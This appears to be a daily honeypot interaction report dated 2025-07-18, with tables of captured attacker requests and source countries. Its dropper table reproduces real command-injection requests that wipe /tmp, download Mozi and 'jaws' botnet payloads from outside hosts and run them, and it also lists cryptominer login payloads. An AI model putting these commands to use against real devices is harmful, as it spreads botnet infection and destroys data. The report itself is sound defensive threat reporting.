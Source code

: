 ```yaml
---
title: "Report: 2025-07-18 "
date: 2025-07-18
desciption: "Report: 2025-07-18" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-18 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 10 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 25 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 757 requests were recorded during the day, originating from 10 different countries, with a peak of 162 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                      |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 39.108.173.165  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 8.222.236.162   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 8.219.133.204   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 8.219.246.41    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 139.196.172.210 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 174.138.30.7    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 8.219.188.210   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 103.207.224.123 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                        |
| 103.93.93.162   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.93.93.162:47689/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 8.222.203.73    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|----:|----------------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  68 |                     2 | CONNECT ipscore.vexhub.dev:443 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 148 |                     1 | \x00\x0E\x081\xA7\x94\xED\x88\x834m\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 149 |                     1 | \x00\x0E81\xA7\x94\xED\x88\x834m\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 158 |                     1 | \x00\x0E\x08/\x11\xAE\x88}\x9D\xCD\xC5\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 159 |                     1 | \x00\x0E8/\x11\xAE\x88}\x9D\xCD\xC5\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 184 |                     1 | GET /odinhttpcall1752800331 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 185 |                     1 | GET /OdinHttpCall1752800331 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 186 |                     1 | GET /Odin/http/call1752800331 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 191 |                     1 | GET /odinhttpcall1752800381 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 192 |                     1 | GET /OdinHttpCall1752800381 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 193 |                     1 | GET /Odin/http/call1752800381 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 208 |                     1 | GET /v1/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 209 |                     1 | GET /v1/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 211 |                     1 | {\x22id\x22: 1, \x22method\x22: \x22mining.subscribe\x22, \x22params\x22: [], \x22jsonrpc\x22:\x222.0\x22}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 213 |                     1 | {\x22id\x22: 1, \x22jsonrpc\x22: \x222.0\x22, \x22method\x22: \x22login\x22, \x22params\x22: { \x22login\x22: \x2248edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD\x22, \x22pass\x22: \x22x\x22, \x22agent\x22: \x22XMRig/2.6.0-beta2 (Linux x86_64) libuv/1.8.0 gcc/5.4.0\x22}}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 215 |                     1 | {\x22id\x22: 1, \x22method\x22: \x22eth_submitLogin\x22, \x22params\x22: []}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 217 |                     1 | {\x22id\x22: 1, \x22method\x22: \x22mining.subscribe\x22, \x22params\x22: [\x22EthereumStratum/1.0.0\x22]}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 219 |                     1 | {\x22id\x22: 1, \x22method\x22: \x22mining.hello\x22, \x22params\x22: {\x22agent\x22:\x22ethminer-0.17\x22,\x22host\x22:\x22xxx.xxx.xxx.xxx\x22, \x22port\x22:\x2250\x22,\x22proto\x22:\x22EthereumStratum/2.0.0\x22}}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 220 |                     1 | \x00\x01\x00\x01\x00\x00\x00\x01\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 221 |                     1 | \xFF\xFD\x01                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 231 |                     1 | \x04\x01\x00P\xC4\xFBU>\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 232 |                     1 | CONNECT 196.251.85.62:80 HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 249 |                     1 | {\x22id\x22:1,\x22method\x22:\x22eth_submitLogin\x22,\x22worker\x22:\x22igwrcvap\x22,\x22params\x22:[\x220x69f997ce12be08f803fd84931767c6c2aa3e9835\x22,\x22x\x22],\x22jsonrpc\x22:\x222.0\x22}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 250 |                     1 | {\x22id\x22:1,\x22jsonrpc\x22:\x222.0\x22,\x22method\x22:\x22login\x22,\x22params\x22:{\x22login\x22:\x2249GZ6PaxC8S51isRNDEj3tTfPFosskEyvKccB4x1fHTeTiYRBSrJYDadWUV1UD9JQH5JVEGPSe2NTa81687NW4qQS13yqUF\x22,\x22pass\x22:\x22x\x22,\x22agent\x22:\x22XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019\x22,\x22algo\x22:[\x22cn/1\x22,\x22cn/2\x22,\x22cn/r\x22,\x22cn/fast\x22,\x22cn/half\x22,\x22cn/xao\x22,\x22cn/rto\x22,\x22cn/rwz\x22,\x22cn/zls\x22,\x22cn/double\x22,\x22cn/ccx\x22,\x22cn-lite/1\x22,\x22cn-heavy/0\x22,\x22cn-heavy/tube\x22,\x22cn-heavy/xhv\x22,\x22cn-pico\x22,\x22cn-pico/tlo\x22,\x22cn/upx2\x22,\x22rx/0\x22,\x22rx/wow\x22,\x22rx/arq\x22,\x22rx/graft\x22,\x22rx/sfx\x22,\x22rx/keva\x22,\x22argon2/chukwa\x22,\x22argon2/chukwav2\x22,\x22argon2/ninja\x22,\x22astrobwt\x22]}} |
| 268 |                     1 | \x0F\x00\x00\x00G\xC40~\x97\x01\x00\x00\xCA\x01\xB4                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   162 | US                 |
|  1 |                    99 | DE                 |
|  2 |                    66 | PL                 |
|  3 |                    62 | SG                 |
|  4 |                    47 | NL                 |
|  5 |                    45 | SE                 |
|  6 |                    44 | GB                 |
|  7 |                    35 | HK                 |
|  8 |                    31 | BG                 |
|  9 |                    24 | ES                 |
| 10 |                    22 | JP                 |
| 11 |                    19 | CA                 |
| 12 |                    17 | NG                 |
| 13 |                    14 | IN                 |
| 14 |                     9 | PT                 |
| 15 |                     7 | BE                 |
| 16 |                     7 | CN                 |
| 17 |                     6 | SC                 |
| 18 |                     4 | IR                 |
| 19 |                     3 | KZ                 |
| 20 |                     3 | IE                 |
| 21 |                     3 | HU                 |
| 22 |                     2 | CO                 |
| 23 |                     2 | ZA                 |
| 24 |                     2 | RU                 |
| 25 |                     2 | RO                 |
| 26 |                     2 | KR                 |
| 27 |                     2 | AU                 |
| 28 |                     1 | MC                 |
| 29 |                     1 | CR                 |
| 30 |                     1 | FI                 |
| 31 |                     1 | BD                 |
| 32 |                     1 | KH                 |
| 33 |                     1 | GR                 |
| 34 |                     1 | AZ                 |
| 35 |                     1 | AR                 |
| 36 |                     1 | BR                 |
| 37 |                     1 | FR                 |
| 38 |                     1 | IL                 |
| 39 |                     1 | ID                 |
| 40 |                     1 | MX                 |
| 41 |                     1 | AO                 |
| 42 |                     1 | IQ                 |
| 43 |                     1 | LT                 |
